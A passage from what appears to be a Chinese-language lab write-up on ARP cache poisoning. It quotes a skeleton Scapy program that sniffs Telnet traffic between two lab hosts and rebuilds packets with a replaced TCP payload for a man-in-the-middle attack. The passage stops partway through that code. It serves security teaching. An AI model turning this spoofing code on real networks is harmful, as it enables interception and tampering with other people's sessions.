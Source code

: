 ![image-20220505225045296](ARPCachePoisoning/image-20220505225045296.png)

随后telnet连接，$A \to B$

```bash
telnet 10.9.0.6
```

![image-20220505220229224](ARPCachePoisoning/image-20220505220229224.png)

> - 我们在主机M上运行我们的嗅觉程序，因此，对于从A到B发送的捕获的数据包，我们对数据包进行了欺骗，但具有TCP不同的数据。 对于从B到A的数据包（Telnet响应），我们没有进行任何更改，因此欺骗的数据包与原始数据包完全相同。
> - 为了帮助大家开始，我们在下面提供了一个框架嗅探和欺骗程序。程序捕获所有TCP数据包，然后对从A到B的数据包进行一些更改（不包括修改部分，因为这是任务的一部分）。对于从B到A的数据包，程序不做任何更改。
>
> ```python
> #!/usr/bin/env python3
> from scapy.all import *
> 
> IP_A = "10.9.0.5"
> MAC_A = "02:42:0a:09:00:05"
> IP_B = "10.9.0.6"
> MAC_B = "02:42:0a:09:00:06"
> 
> 
> def spoof_pkt(pkt):
>     if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
> 
>         # Create a new packet based on the captured one.
>         # 根据捕获的数据包创建一个新数据包。
>         # 1) We need to delete the checksum in the IP & TCP headers,
>         # because our modification will make them invalid.
>         # 1）我们需要删除IP和TCP头中的校验和，因为我们的修改将使它们无效。
>         # Scapy will recalculate them if these fields are missing.
>         # 如果缺少这些字段，Scapy将重新计算它们。
>         # 2) We also delete the original TCP payload.
>         # 2）我们还删除了原始TCP负载。
>         newpkt = IP(bytes(pkt[IP]))
>         del(newpkt.chksum)
>         del(newpkt[TCP].payload)
>         del(newpkt[TCP].chksum)
>         #################################################################
>         # Construct the new payload based on the old payload.
>         # 基于旧的有效载荷构造新的有效载荷。
>         # Students need to implement this part.
>         # 学生需要实现这一部分。
>         if pkt[TCP].payload:
>             data = pkt[TCP].payload.load  # The original payload data 原始有效载荷数据